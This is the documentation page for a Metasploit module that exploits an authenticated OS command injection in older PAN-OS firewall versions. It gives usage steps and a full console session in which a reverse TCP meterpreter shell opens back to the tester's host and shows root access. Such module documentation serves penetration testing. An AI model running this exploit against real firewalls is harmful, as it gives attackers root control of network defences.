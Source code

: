 This module exploits an authenticated OS Command Injection vulnerability in PAN-OS versions: <10.0.1, <9.1.4 and <9.0.10

## Vulnerable Application

A Palo Alto Firewall demo can be requested at the following [link](https://www.paloaltonetworks.com/company/request-demo)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module 
1. Receive a meterpreter session

## Scenario: PAN-OS 10.0.0

```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Authenticating...
[+] Successfully obtained api key
[*] Exploiting...
[*] Sending stage (3020772 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:51132) at 2022-08-16 09:01:47 -0400
[*] Command Stager progress - 100.00% done (1326/1326 bytes)
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
